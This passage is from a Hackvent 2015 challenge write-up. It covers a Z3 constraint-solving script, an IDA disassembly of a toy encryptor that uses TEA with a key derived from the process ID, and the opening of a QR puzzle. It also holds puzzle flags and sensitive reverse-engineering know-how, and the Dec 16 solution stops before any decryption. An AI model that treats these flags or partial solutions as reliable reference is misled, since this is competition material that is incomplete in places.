This was another tough one, after the deadline ended a hint was given to use [Z3 theorem prover](), which was very helpful.

We installed the Z3 python library:

```
pip install https://pypi.python.org/packages/source/a/angr-z3/angr-z3-4.4.2.tar.gz
```

And created the following [script](writeupfiles/dec15_z3.py)

```python
from z3 import *
from string import maketrans

init('/usr/local/lib/libz3.so')
  
solver = Solver()

# create bitvector for each variable
b,c,d,f,g,h,i,j,l,n,o,q,s,t,u,v,w,x,y,z = BitVecs('b c d f g h i j l n o q s t u v w x y z',32)

# variables must be between 0 and 9
solver.add(b>=0,c>=0,d>=0,f>=0,g>=0,h>=0,i>=0,j>=0,l>=0,n>=0,o>=0,q>=0,s>=0,t>=0,u>=0,v>=0,w>=0,x>=0,y>=0,z>=0)
solver.add(b<10,c<10,d<10,f<10,g<10,h<10,i<10,j<10,l<10,n<10,o<10,q<10,s<10,t<10,u<10,v<10,w<10,x<10,y<10,z<10)

# we know q isnt zero
solver.add(q!=0)

# no more than two letters can represent the same value
# NOTE: this can definitely be done better, but could not find correct way to specify it quickly..
# autogenerated this list of constraints, for all combination of 3 variables they can not all represent same value
solver.add(Not(And(b==c,c==d)))
solver.add(Not(And(b==c,c==f)))
solver.add(Not(And(b==c,c==g)))

[..]

solver.add(Not(And(w==x,x==z)))
solver.add(Not(And(w==y,y==z)))
solver.add(Not(And(x==y,y==z)))


# Add all the equations

# bytwycju + yzvyjjdy ^ vugljtyn + ugdztnwv | xbfziozy = bzuwtwol
solver.add(
  (((b*pow(10,7)+y*pow(10,6)+t*pow(10,5)+w*pow(10,4)+y*pow(10,3)+c*pow(10,2)+j*pow(10,1)+u)
  +
  (y*pow(10,7)+z*pow(10,6)+v*pow(10,5)+y*pow(10,4)+j*pow(10,3)+j*pow(10,2)+d*pow(10,1)+y))
  ^
  ((v*pow(10,7)+u*pow(10,6)+g*pow(10,5)+l*pow(10,4)+j*pow(10,3)+t*pow(10,2)+y*pow(10,1)+n)
  +
  (u*pow(10,7)+g*pow(10,6)+d*pow(10,5)+z*pow(10,4)+t*pow(10,3)+n*pow(10,2)+w*pow(10,1)+v)))
  |
  (x*pow(10,7)+b*pow(10,6)+f*pow(10,5)+z*pow(10,4)+i*pow(10,3)+o*pow(10,2)+z*pow(10,1)+y)
  ==
  (b*pow(10,7)+z*pow(10,6)+u*pow(10,5)+w*pow(10,4)+t*pow(10,3)+w*pow(10,2)+o*pow(10,1)+l)
)

# wwnnnqbw - uclfqvdu & oncycbxh | oqcnwbsd ^ cgyoyfjg = vyhyjivb
solver.add(
  (((w*pow(10,7)+w*pow(10,6)+n*pow(10,5)+n*pow(10,4)+n*pow(10,3)+q*pow(10,2)+b*pow(10,1)+w )
  -
  (u*pow(10,7)+c*pow(10,6)+l*pow(10,5)+f*pow(10,4)+q*pow(10,3)+v*pow(10,2)+d*pow(10,1)+u ))
  &
  (o*pow(10,7)+n*pow(10,6)+c*pow(10,5)+y*pow(10,4)+c*pow(10,3)+b*pow(10,2)+x*pow(10,1)+h ))
  |
  ((o*pow(10,7)+q*pow(10,6)+c*pow(10,5)+n*pow(10,4)+w*pow(10,3)+b*pow(10,2)+s*pow(10,1)+d )
  ^
  (c*pow(10,7)+g*pow(10,6)+y*pow(10,5)+o*pow(10,4)+y*pow(10,3)+f*pow(10,2)+j*pow(10,1)+g ))
  ==
  (v*pow(10,7)+y*pow(10,6)+h*pow(10,5)+y*pow(10,4)+j*pow(10,3)+i*pow(10,2)+v*pow(10,1)+b )
)


# yzdgotby | oigsjgoj | ttligxut - dhcqxtfw & szblgodf = sfgsoxdd
solver.add(
  (y*pow(10,7)+z*pow(10,6)+d*pow(10,5)+g*pow(10,4)+o*pow(10,3)+t*pow(10,2)+b*pow(10,1)+y )
  |
  (o*pow(10,7)+i*pow(10,6)+g*pow(10,5)+s*pow(10,4)+j*pow(10,3)+g*pow(10,2)+o*pow(10,1)+j )
  |
  (((t*pow(10,7)+t*pow(10,6)+l*pow(10,5)+i*pow(10,4)+g*pow(10,3)+x*pow(10,2)+u*pow(10,1)+t )
  -
  (d*pow(10,7)+h*pow(10,6)+c*pow(10,5)+q*pow(10,4)+x*pow(10,3)+t*pow(10,2)+f*pow(10,1)+w ))
  &
  (s*pow(10,7)+z*pow(10,6)+b*pow(10,5)+l*pow(10,4)+g*pow(10,3)+o*pow(10,2)+d*pow(10,1)+f ))
  ==
  (s*pow(10,7)+f*pow(10,6)+g*pow(10,5)+s*pow(10,4)+o*pow(10,3)+x*pow(10,2)+d*pow(10,1)+d )
)

# nttuhlnq ^ oqbctlzh - nshtztns ^ htwizvwi+udluvhcz = syhjizjq
solver.add(
  (n*pow(10,7)+t*pow(10,6)+t*pow(10,5)+u*pow(10,4)+h*pow(10,3)+l*pow(10,2)+n*pow(10,1)+q )
  ^
  ((o*pow(10,7)+q*pow(10,6)+b*pow(10,5)+c*pow(10,4)+t*pow(10,3)+l*pow(10,2)+z*pow(10,1)+h )
  -
  (n*pow(10,7)+s*pow(10,6)+h*pow(10,5)+t*pow(10,4)+z*pow(10,3)+t*pow(10,2)+n*pow(10,1)+s ))
  ^
  ((h*pow(10,7)+t*pow(10,6)+w*pow(10,5)+i*pow(10,4)+z*pow(10,3)+v*pow(10,2)+w*pow(10,1)+i )
  +
  (u*pow(10,7)+d*pow(10,6)+l*pow(10,5)+u*pow(10,4)+v*pow(10,3)+h*pow(10,2)+c*pow(10,1)+z ))
  ==
  (s*pow(10,7)+y*pow(10,6)+h*pow(10,5)+j*pow(10,4)+i*pow(10,3)+z*pow(10,2)+j*pow(10,1)+q )
)

# nttuhlnq ^ oqbctlzh - nshtztns ^ htwizvwi + udluvhcz = syhjizjq
solver.add(
 (n*pow(10,7)+t*pow(10,6)+t*pow(10,5)+u*pow(10,4)+h*pow(10,3)+l*pow(10,2)+n*pow(10,1)+q )
 ^
 ((o*pow(10,7)+q*pow(10,6)+b*pow(10,5)+c*pow(10,4)+t*pow(10,3)+l*pow(10,2)+z*pow(10,1)+h )
 -
 (n*pow(10,7)+s*pow(10,6)+h*pow(10,5)+t*pow(10,4)+z*pow(10,3)+t*pow(10,2)+n*pow(10,1)+s ))
 ^
 ((h*pow(10,7)+t*pow(10,6)+w*pow(10,5)+i*pow(10,4)+z*pow(10,3)+v*pow(10,2)+w*pow(10,1)+i )
 +
 (u*pow(10,7)+d*pow(10,6)+l*pow(10,5)+u*pow(10,4)+v*pow(10,3)+h*pow(10,2)+c*pow(10,1)+z ))
 ==
 (s*pow(10,7)+y*pow(10,6)+h*pow(10,5)+j*pow(10,4)+i*pow(10,3)+z*pow(10,2)+j*pow(10,1)+q )
)

# bytwycju ^ wwnnnqbw & yzdgotby + yjjowdqh  - nttuhlnq = fjivucti
solver.add(
  (b*pow(10,7)+y*pow(10,6)+t*pow(10,5)+w*pow(10,4)+y*pow(10,3)+c*pow(10,2)+j*pow(10,1)+u )
  ^
  ((w*pow(10,7)+w*pow(10,6)+n*pow(10,5)+n*pow(10,4)+n*pow(10,3)+q*pow(10,2)+b*pow(10,1)+w )
  &
  ((y*pow(10,7)+z*pow(10,6)+d*pow(10,5)+g*pow(10,4)+o*pow(10,3)+t*pow(10,2)+b*pow(10,1)+y )
  +
  (y*pow(10,7)+j*pow(10,6)+j*pow(10,5)+o*pow(10,4)+w*pow(10,3)+d*pow(10,2)+q*pow(10,1)+h )
  -
  (n*pow(10,7)+t*pow(10,6)+t*pow(10,5)+u*pow(10,4)+h*pow(10,3)+l*pow(10,2)+n*pow(10,1)+q )))
  ==
  (f*pow(10,7)+j*pow(10,6)+i*pow(10,5)+v*pow(10,4)+u*pow(10,3)+c*pow(10,2)+t*pow(10,1)+i )
)

# yzvyjjdy ^ uclfqvdu & oigsjgoj + niiqztgs - oqbctlzh = zoljwdfl
solver.add(
  (y*pow(10,7)+z*pow(10,6)+v*pow(10,5)+y*pow(10,4)+j*pow(10,3)+j*pow(10,2)+d*pow(10,1)+y )
  ^
  ((u*pow(10,7)+c*pow(10,6)+l*pow(10,5)+f*pow(10,4)+q*pow(10,3)+v*pow(10,2)+d*pow(10,1)+u )
  &
  ((o*pow(10,7)+i*pow(10,6)+g*pow(10,5)+s*pow(10,4)+j*pow(10,3)+g*pow(10,2)+o*pow(10,1)+j )
  +
  (n*pow(10,7)+i*pow(10,6)+i*pow(10,5)+q*pow(10,4)+z*pow(10,3)+t*pow(10,2)+g*pow(10,1)+s )
  -
  (o*pow(10,7)+q*pow(10,6)+b*pow(10,5)+c*pow(10,4)+t*pow(10,3)+l*pow(10,2)+z*pow(10,1)+h )))
  ==
  (z*pow(10,7)+o*pow(10,6)+l*pow(10,5)+j*pow(10,4)+w*pow(10,3)+d*pow(10,2)+f*pow(10,1)+l )
)

# vugljtyn ^ oncycbxh & ttligxut + ctvtwysu - nshtztns = sugvqgww
solver.add(
  (v*pow(10,7)+u*pow(10,6)+g*pow(10,5)+l*pow(10,4)+j*pow(10,3)+t*pow(10,2)+y*pow(10,1)+n )
  ^
  ((o*pow(10,7)+n*pow(10,6)+c*pow(10,5)+y*pow(10,4)+c*pow(10,3)+b*pow(10,2)+x*pow(10,1)+h )
  &
  ((t*pow(10,7)+t*pow(10,6)+l*pow(10,5)+i*pow(10,4)+g*pow(10,3)+x*pow(10,2)+u*pow(10,1)+t )
  +
  (c*pow(10,7)+t*pow(10,6)+v*pow(10,5)+t*pow(10,4)+w*pow(10,3)+y*pow(10,2)+s*pow(10,1)+u )
  -
  (n*pow(10,7)+s*pow(10,6)+h*pow(10,5)+t*pow(10,4)+z*pow(10,3)+t*pow(10,2)+n*pow(10,1)+s )))
  ==
  (s*pow(10,7)+u*pow(10,6)+g*pow(10,5)+v*pow(10,4)+q*pow(10,3)+g*pow(10,2)+w*pow(10,1)+w )
)

# ugdztnwv ^ oqcnwbsd & dhcqxtfw + diffhlnl - htwizvwi = uxztiywn
solver.add(
  (u*pow(10,7)+g*pow(10,6)+d*pow(10,5)+z*pow(10,4)+t*pow(10,3)+n*pow(10,2)+w*pow(10,1)+v )
  ^
  ((o*pow(10,7)+q*pow(10,6)+c*pow(10,5)+n*pow(10,4)+w*pow(10,3)+b*pow(10,2)+s*pow(10,1)+d )
  &
 ( (d*pow(10,7)+h*pow(10,6)+c*pow(10,5)+q*pow(10,4)+x*pow(10,3)+t*pow(10,2)+f*pow(10,1)+w )
  +
  (d*pow(10,7)+i*pow(10,6)+f*pow(10,5)+f*pow(10,4)+h*pow(10,3)+l*pow(10,2)+n*pow(10,1)+l )
  -
  (h*pow(10,7)+t*pow(10,6)+w*pow(10,5)+i*pow(10,4)+z*pow(10,3)+v*pow(10,2)+w*pow(10,1)+i )))
  ==
  (u*pow(10,7)+x*pow(10,6)+z*pow(10,5)+t*pow(10,4)+i*pow(10,3)+y*pow(10,2)+w*pow(10,1)+n )
)

# xbfziozy ^ cgyoyfjg & szblgodf + thhwohwn - udluvhcz  = jqxizzxq
solver.add(
  (x*pow(10,7)+b*pow(10,6)+f*pow(10,5)+z*pow(10,4)+i*pow(10,3)+o*pow(10,2)+z*pow(10,1)+y )
  ^
  ((c*pow(10,7)+g*pow(10,6)+y*pow(10,5)+o*pow(10,4)+y*pow(10,3)+f*pow(10,2)+j*pow(10,1)+g )
  &
  ((s*pow(10,7)+z*pow(10,6)+b*pow(10,5)+l*pow(10,4)+g*pow(10,3)+o*pow(10,2)+d*pow(10,1)+f )
  +
  (t*pow(10,7)+h*pow(10,6)+h*pow(10,5)+w*pow(10,4)+o*pow(10,3)+h*pow(10,2)+w*pow(10,1)+n )
  -
  (u*pow(10,7)+d*pow(10,6)+l*pow(10,5)+u*pow(10,4)+v*pow(10,3)+h*pow(10,2)+c*pow(10,1)+z )))
  ==
  (j*pow(10,7)+q*pow(10,6)+x*pow(10,5)+i*pow(10,4)+z*pow(10,3)+z*pow(10,2)+x*pow(10,1)+q )
)


#find solution
print(solver.check())
print(solver.model())

#translate message
msg='iw hu fv lu dv cy og lc gy fq od lo fq is ig gu hs hi ds cy oo os iu fs gu lh dq lv gu iw hv gu di hs cy oc iw gc'
fromstring='bcdfghijlnoqstuvwxyz'
tostring=''+str(solver.model()[b])+str(solver.model()[c])+str(solver.model()[d])+str(solver.model()[f])+str(solver.model()[g])+str(solver.model()[h])+str(solver.model()[i])+str(solver.model()[j])+str(solver.model()[l])+str(solver.model()[n])+str(solver.model()[o])+str(solver.model()[q])+str(solver.model()[s])+str(solver.model()[t])+str(solver.model()[u])+str(solver.model()[v])+str(solver.model()[w])+str(solver.model()[x])+str(solver.model()[y])+str(solver.model()[z])

mytrans=maketrans(fromstring,tostring)
print msg.translate(mytrans)

```

We run this and find the solution!!

```
sat
[x = 1,
 z = 0,
 c = 3,
 v = 9,
 s = 9,
 q = 5,
 l = 8,
 g = 3,
 b = 5,
 f = 6,
 i = 8,
 o = 7,
 j = 0,
 u = 2,
 h = 7,
 w = 4,
 n = 1,
 d = 6,
 y = 2,
 t = 4]
84 72 69 82 69 32 73 83 32 65 76 87 65 89 83 32 79 78 69 32 77 79 82 69 32 87 65 89 32 84 79 32 68 79 32 73 84 33

```
The translated message converted to ASCII reads:

```
THERE IS ALWAYS ONE MORE WAY TO DO IT!
```


**Nugget**

```
HV15-U3bA-BKhc-gNqN-Hit6-C1fK
```


## Dec 16: Reversing #2  

**Challenge**  

*xmas encryptor*

todays code was encrypted by our mighty xmas encryptor. you are given the executable and the encrypted key. can you find a vulnerability in our code to decrypt the daily code? 

[file](writeupfiles/HVenc_Cw5ZSbmlj0yEhZp9VKlQ.zip)

*Hint: do not ignore constants in the encrypt() routine - it can help you to identify the algorithm.*

**Solution**  

This was a tough one for me. We got a windows executable, and a file with the encrypted nugget.

We disassemble the file:

[link](writeupfiles/dec16-asm.txt)

```asm
CODE:00401000 ;
CODE:00401000 ; +-------------------------------------------------------------------------+
CODE:00401000 ; |   This file has been generated by The Interactive Disassembler (IDA)    |
CODE:00401000 ; |           Copyright (c) 2015 Hex-Rays, <support@hex-rays.com>           |
CODE:00401000 ; |                           Evaluation version                            |
CODE:00401000 ; +-------------------------------------------------------------------------+
CODE:00401000 ;
CODE:00401000 ; Input MD5   : C8898E2B195C4ED57EBAD43B9320F2E5
CODE:00401000 ; Input CRC32 : 81B7419B
CODE:00401000
CODE:00401000 ; File Name   : E:\personal\CTF\ctf-writeups\CTF-writeups-private\Hackvent_2015\writeupfiles\HVenc\hackvent_encryptor.exe
CODE:00401000 ; Format      : Portable executable for 80386 (PE)
CODE:00401000 ; Imagebase   : 400000
CODE:00401000 ; Section 1. (virtual address 00001000)
CODE:00401000 ; Virtual size                  : 00001000 (   4096.)
CODE:00401000 ; Section size in file          : 00000200 (    512.)
CODE:00401000 ; Offset to raw data for section: 00000600
CODE:00401000 ; Flags 60000020: Text Executable Readable
CODE:00401000 ; Alignment     : default
CODE:00401000
CODE:00401000                 .686p
CODE:00401000                 .mmx
CODE:00401000                 .model flat
CODE:00401000
CODE:00401000 ; ===========================================================================
CODE:00401000
CODE:00401000 ; Segment type: Pure code
CODE:00401000 ; Segment permissions: Read/Execute
CODE:00401000 CODE            segment para public 'CODE' use32
CODE:00401000                 assume cs:CODE
CODE:00401000                 ;org 401000h
CODE:00401000                 assume es:nothing, ss:nothing, ds:CODE, fs:nothing, gs:nothing
CODE:00401000
CODE:00401000 ; =============== S U B R O U T I N E =======================================
CODE:00401000
CODE:00401000 ; Attributes: bp-based frame
CODE:00401000
CODE:00401000 sub_401000      proc near               ; CODE XREF: start+87p
CODE:00401000
CODE:00401000 arg_0           = dword ptr  8
CODE:00401000 arg_4           = dword ptr  0Ch
CODE:00401000
CODE:00401000                 enter   0, 0
CODE:00401004                 pusha
CODE:00401005                 mov     esi, [ebp+arg_4]
CODE:00401008                 mov     eax, [esi]
CODE:0040100A                 mov     ebx, [esi+4]
CODE:0040100D                 mov     ecx, [esi+8]
CODE:00401010                 mov     edx, [esi+0Ch]
CODE:00401013                 mov     ds:dword_40203C, eax
CODE:00401018                 mov     ds:dword_402040, ebx
CODE:0040101E                 mov     ds:dword_402044, ecx
CODE:00401024                 mov     ds:dword_402048, edx
CODE:0040102A                 push    ebp
CODE:0040102B                 mov     ebx, [ebp+arg_0]
CODE:0040102E                 xor     edx, edx
CODE:00401030                 mov     esi, [ebx]
CODE:00401032                 mov     edi, [ebx+4]
CODE:00401035                 mov     ebp, 20h
CODE:0040103A
CODE:0040103A loc_40103A:                             ; CODE XREF: sub_401000+81j
CODE:0040103A                 add     edx, 9E3779B9h
CODE:00401040                 mov     eax, edi
CODE:00401042                 mov     ecx, eax
CODE:00401044                 mov     ebx, edi
CODE:00401046                 shl     eax, 4
CODE:00401049                 shr     ebx, 5
CODE:0040104C                 add     eax, ds:dword_40203C
CODE:00401052                 add     ebx, ds:dword_402040
CODE:00401058                 add     ecx, edx
CODE:0040105A                 xor     ecx, eax
CODE:0040105C                 xor     ecx, ebx
CODE:0040105E                 add     esi, ecx
CODE:00401060                 mov     eax, esi
CODE:00401062                 mov     ebx, esi
CODE:00401064                 mov     ecx, esi
CODE:00401066                 shl     eax, 4
CODE:00401069                 shr     ebx, 5
CODE:0040106C                 add     eax, ds:dword_402044
CODE:00401072                 add     ebx, ds:dword_402048
CODE:00401078                 add     ecx, edx
CODE:0040107A                 xor     ecx, eax
CODE:0040107C                 xor     ecx, ebx
CODE:0040107E                 add     edi, ecx
CODE:00401080                 dec     ebp
CODE:00401081                 jnz     short loc_40103A
CODE:00401083                 mov     ds:dword_40203C, ebp
CODE:00401089                 mov     ds:dword_402040, ebp
CODE:0040108F                 mov     ds:dword_402044, ebp
CODE:00401095                 mov     ds:dword_402048, ebp
CODE:0040109B                 pop     ebp
CODE:0040109C                 mov     ebx, [ebp+arg_0]
CODE:0040109F                 mov     [ebx], esi
CODE:004010A1                 mov     [ebx+4], edi
CODE:004010A4                 popa
CODE:004010A5                 leave
CODE:004010A6                 retn    8
CODE:004010A6 sub_401000      endp
CODE:004010A6
CODE:004010A9
CODE:004010A9 ; =============== S U B R O U T I N E =======================================
CODE:004010A9
CODE:004010A9 ; Attributes: noreturn
CODE:004010A9
CODE:004010A9                 public start
CODE:004010A9 start           proc near
CODE:004010A9                 push    0               ; lpModuleName
CODE:004010AB                 call    GetModuleHandleA
CODE:004010B0                 call    GetCurrentProcessId
CODE:004010B5                 imul    eax, 12345678h
CODE:004010BB                 mov     ds:dword_402074, eax
CODE:004010C0                 xor     eax, 0BABEF00Dh
CODE:004010C5                 mov     ds:dword_402078, eax
CODE:004010CA                 sub     eax, 1EE7C0DEh
CODE:004010CF                 mov     ds:dword_40207C, eax
CODE:004010D4                 add     eax, 42424242h
CODE:004010D9                 mov     ds:dword_402080, eax
CODE:004010DE                 push    0               ; hTemplateFile
CODE:004010E0                 push    0               ; dwFlagsAndAttributes
CODE:004010E2                 push    3               ; dwCreationDisposition
CODE:004010E4                 push    0               ; lpSecurityAttributes
CODE:004010E6                 push    3               ; dwShareMode
CODE:004010E8                 push    0C0000000h      ; dwDesiredAccess
CODE:004010ED                 push    offset FileName ; "key.txt"
CODE:004010F2                 call    CreateFileA
CODE:004010F7                 mov     ds:hFile, eax
CODE:004010FC                 cmp     ds:hFile, 0FFFFFFFFh
CODE:00401103                 jz      short loc_401165
CODE:00401105                 push    0               ; lpOverlapped
CODE:00401107                 push    offset NumberOfBytesWritten ; lpNumberOfBytesRead
CODE:0040110C                 push    20h             ; nNumberOfBytesToRead
CODE:0040110E                 push    offset unk_402050 ; lpBuffer
CODE:00401113                 push    ds:hFile        ; hFile
CODE:00401119                 call    ReadFile
CODE:0040111E                 xor     ecx, ecx
CODE:00401120                 mov     esi, offset unk_402050
CODE:00401125
CODE:00401125 loc_401125:                             ; CODE XREF: start+90j
CODE:00401125                 cmp     ecx, 4
CODE:00401128                 jz      short loc_40113B
CODE:0040112A                 push    offset dword_402074
CODE:0040112F                 push    esi
CODE:00401130                 call    sub_401000
CODE:00401135                 add     esi, 8
CODE:00401138                 inc     ecx
CODE:00401139                 jmp     short loc_401125
CODE:0040113B ; ---------------------------------------------------------------------------
CODE:0040113B
CODE:0040113B loc_40113B:                             ; CODE XREF: start+7Fj
CODE:0040113B                 push    0               ; dwMoveMethod
CODE:0040113D                 push    0               ; lpDistanceToMoveHigh
CODE:0040113F                 push    0               ; lDistanceToMove
CODE:00401141                 push    ds:hFile        ; hFile
CODE:00401147                 call    SetFilePointer
CODE:0040114C                 push    0               ; lpOverlapped
CODE:0040114E                 push    offset NumberOfBytesWritten ; lpNumberOfBytesWritten
CODE:00401153                 push    20h             ; nNumberOfBytesToWrite
CODE:00401155                 push    offset unk_402050 ; lpBuffer
CODE:0040115A                 push    ds:hFile        ; hFile
CODE:00401160                 call    WriteFile
CODE:00401165
CODE:00401165 loc_401165:                             ; CODE XREF: start+5Aj
CODE:00401165                 push    ds:hFile        ; hObject
CODE:0040116B                 call    CloseHandle
CODE:00401170                 push    40h             ; uType
CODE:00401172                 push    offset Caption  ; "Hackvent 2015"
CODE:00401177                 push    offset Text     ; "file key.txt successfully encrypted!"
CODE:0040117C                 push    0               ; hWnd
CODE:0040117E                 call    MessageBoxA
CODE:00401183                 push    0               ; uExitCode
CODE:00401185                 call    ExitProcess
CODE:00401185 start           endp
CODE:00401185
CODE:0040118A ; [00000006 BYTES: COLLAPSED FUNCTION CloseHandle. PRESS CTRL-NUMPAD+ TO EXPAND]
CODE:00401190 ; [00000006 BYTES: COLLAPSED FUNCTION ExitProcess. PRESS CTRL-NUMPAD+ TO EXPAND]
CODE:00401196 ; [00000006 BYTES: COLLAPSED FUNCTION CreateFileA. PRESS CTRL-NUMPAD+ TO EXPAND]
CODE:0040119C ; [00000006 BYTES: COLLAPSED FUNCTION GetModuleHandleA. PRESS CTRL-NUMPAD+ TO EXPAND]
CODE:004011A2 ; [00000006 BYTES: COLLAPSED FUNCTION ReadFile. PRESS CTRL-NUMPAD+ TO EXPAND]
CODE:004011A8 ; [00000006 BYTES: COLLAPSED FUNCTION SetFilePointer. PRESS CTRL-NUMPAD+ TO EXPAND]
CODE:004011AE ; [00000006 BYTES: COLLAPSED FUNCTION WriteFile. PRESS CTRL-NUMPAD+ TO EXPAND]
CODE:004011B4 ; [00000006 BYTES: COLLAPSED FUNCTION GetCurrentProcessId. PRESS CTRL-NUMPAD+ TO EXPAND]
CODE:004011BA ; [00000006 BYTES: COLLAPSED FUNCTION MessageBoxA. PRESS CTRL-NUMPAD+ TO EXPAND]
CODE:004011C0                 align 80h
CODE:00401200                 dd 380h dup(?)
CODE:00401200 CODE            ends
CODE:00401200
DATA:00402000 ; Section 2. (virtual address 00002000)
DATA:00402000 ; Virtual size                  : 00001000 (   4096.)
DATA:00402000 ; Section size in file          : 00000200 (    512.)
DATA:00402000 ; Offset to raw data for section: 00000800
DATA:00402000 ; Flags C0000040: Data Readable Writable
DATA:00402000 ; Alignment     : default
DATA:00402000 ; ===========================================================================
DATA:00402000
DATA:00402000 ; Segment type: Pure data
DATA:00402000 ; Segment permissions: Read/Write
DATA:00402000 DATA            segment para public 'DATA' use32
DATA:00402000                 assume cs:DATA
DATA:00402000                 ;org 402000h
DATA:00402000 ; CHAR FileName[]
DATA:00402000 FileName        db 'key.txt',0          ; DATA XREF: start+44o
DATA:00402008 ; CHAR Caption[]
DATA:00402008 Caption         db 'Hackvent 2015',0    ; DATA XREF: start+C9o
DATA:00402016 ; CHAR Text[]
DATA:00402016 Text            db 'file key.txt successfully encrypted!',0
DATA:00402016                                         ; DATA XREF: start+CEo
DATA:0040203B                 align 4
DATA:0040203C dword_40203C    dd 0                    ; DATA XREF: sub_401000+13w
DATA:0040203C                                         ; sub_401000+4Cr ...
DATA:00402040 dword_402040    dd 0                    ; DATA XREF: sub_401000+18w
DATA:00402040                                         ; sub_401000+52r ...
DATA:00402044 dword_402044    dd 0                    ; DATA XREF: sub_401000+1Ew
DATA:00402044                                         ; sub_401000+6Cr ...
DATA:00402048 dword_402048    dd 0                    ; DATA XREF: sub_401000+24w
DATA:00402048                                         ; sub_401000+72r ...
DATA:0040204C ; HANDLE hFile
DATA:0040204C hFile           dd 0                    ; DATA XREF: start+4Ew
DATA:0040204C                                         ; start+53r ...
DATA:00402050 unk_402050      db    0                 ; DATA XREF: start+65o
DATA:00402050                                         ; start+77o ...
DATA:00402051                 db    0
DATA:00402052                 db    0
DATA:00402053                 db    0
DATA:00402054                 db    0
DATA:00402055                 db    0
DATA:00402056                 db    0
DATA:00402057                 db    0
DATA:00402058                 db    0
DATA:00402059                 db    0
DATA:0040205A                 db    0
DATA:0040205B                 db    0
DATA:0040205C                 db    0
DATA:0040205D                 db    0
DATA:0040205E                 db    0
DATA:0040205F                 db    0
DATA:00402060                 db    0
DATA:00402061                 db    0
DATA:00402062                 db    0
DATA:00402063                 db    0
DATA:00402064                 db    0
DATA:00402065                 db    0
DATA:00402066                 db    0
DATA:00402067                 db    0
DATA:00402068                 db    0
DATA:00402069                 db    0
DATA:0040206A                 db    0
DATA:0040206B                 db    0
DATA:0040206C                 db    0
DATA:0040206D                 db    0
DATA:0040206E                 db    0
DATA:0040206F                 db    0
DATA:00402070 ; DWORD NumberOfBytesWritten
DATA:00402070 NumberOfBytesWritten dd 0               ; DATA XREF: start+5Eo
DATA:00402070                                         ; start+A5o
DATA:00402074 dword_402074    dd 0                    ; DATA XREF: start+12w
DATA:00402074                                         ; start+81o
DATA:00402078 dword_402078    dd 0                    ; DATA XREF: start+1Cw
DATA:0040207C dword_40207C    dd 0                    ; DATA XREF: start+26w
DATA:00402080 dword_402080    dd 0                    ; DATA XREF: start+30w
DATA:00402084                 align 1000h
DATA:00402084 DATA            ends
DATA:00402084
.idata:00403000 ; Section 3. (virtual address 00003000)
.idata:00403000 ; Virtual size                  : 00001000 (   4096.)
.idata:00403000 ; Section size in file          : 00000200 (    512.)
.idata:00403000 ; Offset to raw data for section: 00000A00
.idata:00403000 ; Flags C0000040: Data Readable Writable
.idata:00403000 ; Alignment     : default
.idata:00403000 ; ===========================================================================
.idata:00403000
.idata:00403000 ; Segment type: Externs
.idata:00403000 ; _idata
.idata:00403000
.idata:00403001
.idata:00403068 ;
.idata:00403068 ; Imports from KERNEL32.dll
.idata:00403068 ;
.idata:00403068 ; BOOL __stdcall CloseHandle(HANDLE hObject)
.idata:00403068                 extrn __imp_CloseHandle:dword ; DATA XREF: CloseHandler
.idata:0040306C ; void __stdcall __noreturn ExitProcess(UINT uExitCode)
.idata:0040306C                 extrn __imp_ExitProcess:dword ; DATA XREF: ExitProcessr
.idata:00403070 ; HANDLE __stdcall CreateFileA(LPCSTR lpFileName, DWORD dwDesiredAccess, DWORD dwShareMode, LPSECURITY_ATTRIBUTES lpSecurityAttributes, DWORD dwCreationDisposition, DWORD dwFlagsAndAttributes, HANDLE hTemplateFile)
.idata:00403070                 extrn __imp_CreateFileA:dword ; DATA XREF: CreateFileAr
.idata:00403074 ; HMODULE __stdcall GetModuleHandleA(LPCSTR lpModuleName)
.idata:00403074                 extrn __imp_GetModuleHandleA:dword
.idata:00403074                                         ; DATA XREF: GetModuleHandleAr
.idata:00403078 ; BOOL __stdcall ReadFile(HANDLE hFile, LPVOID lpBuffer, DWORD nNumberOfBytesToRead, LPDWORD lpNumberOfBytesRead, LPOVERLAPPED lpOverlapped)
.idata:00403078                 extrn __imp_ReadFile:dword ; DATA XREF: ReadFiler
.idata:0040307C ; DWORD __stdcall SetFilePointer(HANDLE hFile, LONG lDistanceToMove, PLONG lpDistanceToMoveHigh, DWORD dwMoveMethod)
.idata:0040307C                 extrn __imp_SetFilePointer:dword
.idata:0040307C                                         ; DATA XREF: SetFilePointerr
.idata:00403080 ; BOOL __stdcall WriteFile(HANDLE hFile, LPCVOID lpBuffer, DWORD nNumberOfBytesToWrite, LPDWORD lpNumberOfBytesWritten, LPOVERLAPPED lpOverlapped)
.idata:00403080                 extrn __imp_WriteFile:dword ; DATA XREF: WriteFiler
.idata:00403084 ; DWORD __stdcall GetCurrentProcessId()
.idata:00403084                 extrn __imp_GetCurrentProcessId:dword
.idata:00403084                                         ; DATA XREF: GetCurrentProcessIdr
.idata:00403088
.idata:0040308C ;
.idata:0040308C ; Imports from USER32.dll
.idata:0040308C ;
.idata:0040308C ; int __stdcall MessageBoxA(HWND hWnd, LPCSTR lpText, LPCSTR lpCaption, UINT uType)
.idata:0040308C                 extrn __imp_MessageBoxA:dword ; DATA XREF: MessageBoxAr
.idata:00403090
.idata:00403090
.idata:00403090
.idata:00403090                 end start
```

We see that the key is constructed using the current processId as a seed:

```asm
CODE:004010AB                 call    GetModuleHandleA
CODE:004010B0                 call    GetCurrentProcessId
CODE:004010B5                 imul    eax, 12345678h
CODE:004010BB                 mov     ds:dword_402074, eax
CODE:004010C0                 xor     eax, 0BABEF00Dh
CODE:004010C5                 mov     ds:dword_402078, eax
CODE:004010CA                 sub     eax, 1EE7C0DEh
CODE:004010CF                 mov     ds:dword_40207C, eax
CODE:004010D4                 add     eax, 42424242h
CODE:004010D9                 mov     ds:dword_402080, eax
```

This must be the vulnerability the challenge text alluded to, as the process Id in practice never gets very high. So if we can reverse the encryption, we could just try a number of different keys until it decrypts to something starting with `HV15`. 

The decryption proved difficult to perform. After the hint was released, we finally got on the right track. Turns out googling the constant used at the beginning of the encryption function would lead you to the algorithm:

```asm
CODE:0040103A loc_40103A:                             ; CODE XREF: sub_401000+81j
CODE:0040103A                 add     edx, 9E3779B9h
```

Turns out this is Tiny Encryption Algorithm (TEA).

**Nugget**


## Dec 17: Santas Quick Response  

**Challenge**  

*Enhancement made worse*

Santa was disappointed about the small QR's: they couldn't store enough data to flag each gift uniquely for his 8 billion customers.
Promptly he removed some unnecessary features and added a few trailblazing new ones.
Now he's capable to store a mupltiple of the previous amount, 3 times more, or even more.

Here is your gift: 


... extract your nugget with your self made scanner!

